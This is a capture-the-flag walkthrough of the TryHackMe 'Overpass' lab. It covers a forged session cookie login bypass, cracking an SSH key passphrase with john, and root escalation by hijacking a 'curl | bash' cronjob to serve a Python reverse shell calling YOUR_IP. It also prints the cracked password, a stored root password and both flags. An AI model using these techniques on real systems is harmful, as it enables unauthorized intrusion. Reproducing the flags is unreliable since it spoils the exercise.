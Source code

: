 13.09.2020 | Felix Strobel ([relevant](https://tryhackme.com/p/relevant))

# Overpass

  - [Task 1](#task-1)

## Task 1

<i>To get some information on the system we can perform a simple [nmap](https://nmap.org) scan. Using the `-sC` flag means using the default scripts. The `-sV` flag determines the versions of the services.<br>
The full command looks like this: `nmap -sC -sV MACHINE_IP`<br>
After scanning we can see an ssh and an http service running.</i>

<pre>
PORT   STATE SERVICE VERSION
22/tcp open  <b>ssh</b>     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  <b>http</b>    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
</pre>

<i>The website shows a link to a download page and gives us the possibility to download the source code. Now we can perform a simple [gobuster](https://github.com/OJ/gobuster) scan for good practice and to be sure we did not miss any important information. We will use the `-u` flag to specify our target and the `-w` flag to specify a wordlist. I am using the [`common.txt`](https://gitlab.com/kalilinux/packages/dirb/-/blob/kali/master/wordlists/common.txt).<br>
The full command looks like this: `gobuster dir -u "http://MACHINE_IP" -w ./common.txt`<br>
When the scan has finished we see a `/admin` directory we haven't recognized before.</i>

<pre>
/aboutus (Status: 301)
<b>/admin</b> (Status: 301)
/css (Status: 301)
/downloads (Status: 301)
/img (Status: 301)
/index.html (Status: 301)
</pre>

<i>This `/admin` directory contains a login form. Looking at the source code we detect a `login.js` file. When searching the `login.js` file for a vulnerability we can recognize that the `SessionToken` cookie has to be set to log-in. We can start our webbrowser, open the developer console and switch to the Application tab. Under cookies we can create our own and call it `SessionToken`. The value does not matter. Then we can reload the page and see that we are 'logged in'. The webpage shows now an ssh private key.</i>

<pre>
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337

LNu5wQBBz7pKZ3cc4TWlxIUuD/opJi1DVpPa06pwiHHhe8Zjw3/v+xnmtS3O+qiN
JHnLS8oUVR6Smosw4pqLGcP3AwKvrzDWtw2ycO7mNdNszwLp3uto7ENdTIbzvJal
73/eUN9kYF0ua9rZC6mwoI2iG6sdlNL4ZqsYY7rrvDxeCZJkgzQGzkB9wKgw1ljT
WDyy8qncljugOIf8QrHoo30Gv+dAMfipTSR43FGBZ/Hha4jDykUXP0PvuFyTbVdv
BMXmr3xuKkB6I6k/jLjqWcLrhPWS0qRJ718G/u8cqYX3oJmM0Oo3jgoXYXxewGSZ
AL5bLQFhZJNGoZ+N5nHOll1OBl1tmsUIRwYK7wT/9kvUiL3rhkBURhVIbj2qiHxR
3KwmS4Dm4AOtoPTIAmVyaKmCWopf6le1+wzZ/UprNCAgeGTlZKX/joruW7ZJuAUf
ABbRLLwFVPMgahrBp6vRfNECSxztbFmXPoVwvWRQ98Z+p8MiOoReb7Jfusy6GvZk
VfW2gpmkAr8yDQynUukoWexPeDHWiSlg1kRJKrQP7GCupvW/r/Yc1RmNTfzT5eeR
OkUOTMqmd3Lj07yELyavlBHrz5FJvzPM3rimRwEsl8GH111D4L5rAKVcusdFcg8P
9BQukWbzVZHbaQtAGVGy0FKJv1WhA+pjTLqwU+c15WF7ENb3Dm5qdUoSSlPzRjze
eaPG5O4U9Fq0ZaYPkMlyJCzRVp43De4KKkyO5FQ+xSxce3FW0b63+8REgYirOGcZ
4TBApY+uz34JXe8jElhrKV9xw/7zG2LokKMnljG2YFIApr99nZFVZs1XOFCCkcM8
GFheoT4yFwrXhU1fjQjW/cR0kbhOv7RfV5x7L36x3ZuCfBdlWkt/h2M5nowjcbYn
exxOuOdqdazTjrXOyRNyOtYF9WPLhLRHapBAkXzvNSOERB3TJca8ydbKsyasdCGy
AIPX52bioBlDhg8DmPApR1C1zRYwT1LEFKt7KKAaogbw3G5raSzB54MQpX6WL+wk
6p7/wOX6WMo1MlkF95M3C7dxPFEspLHfpBxf2qys9MqBsd0rLkXoYR6gpbGbAW58
dPm51MekHD+WeP8oTYGI4PVCS/WF+U90Gty0UmgyI9qfxMVIu1BcmJhzh8gdtT0i
n0Lz5pKY+rLxdUaAA9KVwFsdiXnXjHEE1UwnDqqrvgBuvX6Nux+hfgXi9Bsy68qT
8HiUKTEsukcv/IYHK1s+Uw/H5AWtJsFmWQs3bw+Y4iw+YLZomXA4E7yxPXyfWm4K
4FMg3ng0e4/7HRYJSaXLQOKeNwcf/LW5dipO7DmBjVLsC8eyJ8ujeutP/GcA5l6z
ylqilOgj4+yiS813kNTjCJOwKRsXg2jKbnRa8b7dSRz7aDZVLpJnEy9bhn6a7WtS
49TxToi53ZB14+ougkL4svJyYYIRuQjrUmierXAdmbYF9wimhmLfelrMcofOHRW2
+hL1kHlTtJZU8Zj2Y2Y3hd6yRNJcIgCDrmLbn9C5M0d7g0h2BlFaJIZOYDS6J6Yk
2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
-----END RSA PRIVATE KEY-----
</pre>

<i>Let's safe this key on our machine as `id_rsa`. But now we need a password for the key. We will use [`ssh2john.py`](https://www.openwall.com/john) to create a hash.<br>
The full command looks like this: `python ./ssh2john.py ./id_rsa > id_rsa.hash`<br>
Great, now we can use [`john`](https://www.openwall.com/john) to crack the hash. To specify a wordlist we use the `--wordlist` flag. Our wordlist will be the [`rockyou.txt`](https://gitlab.com/kalilinux/packages/wordlists/-/blob/kali/master/rockyou.txt.gz).<br>
The full command looks like this: `john --wordlist=./rockyou.txt id_rsa.hash`<br>
John returns the following and presents the cracked password.</i>

<pre>
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 12 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
<b>james13</b>          (./id_rsa)
1g 0:00:00:02 DONE (2020-09-13 11:07) 0.4347g/s 6235Kp/s 6235Kc/s 6235KC/s  0125457423 ..*7¡Vamos!
Session completed
</pre>

<i>Now we have an ssh private key and the password. Before logging in with: `ssh -i ./id_rsa james@MACHINE_IP` we have to set permissions on the `id_rsa` file using `chmod 600 id_rsa`. And here we go, we are logged in as james. And in the home directory we can find the `user.txt` file.</i>

1. Hack the machine and get the flag in `user.txt`.<br>
   `thm{65c1aaf000506e56996822c6281e6bf7}`

<i>In the home directory we can also find a `.overpass` file which we can `cat` out.</i>

<pre>[{"name":"System","pass":"saydrawnlyingpicture"}]</pre>

<i>Did he really store his root password here? Trying to switch the user to root does not work. Looking at the `/etc/crontab` file shows a cronjob running as root.</i>

<pre>
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * * <b>root curl overpass.thm/downloads/src/buildscript.sh | bash</b>
</pre>

<i>Ok, he tries to fetch a file from `overpass.thm`. Maybe we can change the `overpass.thm` to point to our own internal ip address. To do so we have to edit the `/etc/hosts` file using `nano`.<br>
The full command looks like this: `nano /etc/hosts`<br>
Then you have to edit the content to look like the following. The YOUR_IP should be your internal tryhackme vpn address.</i>

<pre>
127.0.0.1 localhost
127.0.1.1 overpass-prod
<b>YOUR_IP overpass.thm</b>
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
</pre>

<i>That's done. So let's move on and create a file called `buildscript.sh` according to this folder structure `downloads/src/`. Create these folders depending on your server starting location. We paste a reverse shell from [pentestmonkey.net](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) into `buildscript.sh`.</i>

<pre>
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP",8000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
</pre>

<i>Now we have to set up a small static file server and a `netcat` listener.<br>
The server command: `sudo python3 -m http.server 80`<br>
The netcat listener: `nc -lnvp 8080`<br>
After some waiting our `netcat` listener catches the reverse shell. And we became root! We can `cat` the `root.txt` out.</i>

2. Escalate your privileges and get the flag in `root.txt`.<br>
   `thm{7f336f8c359dbac18d54fdd64ea753bb}`
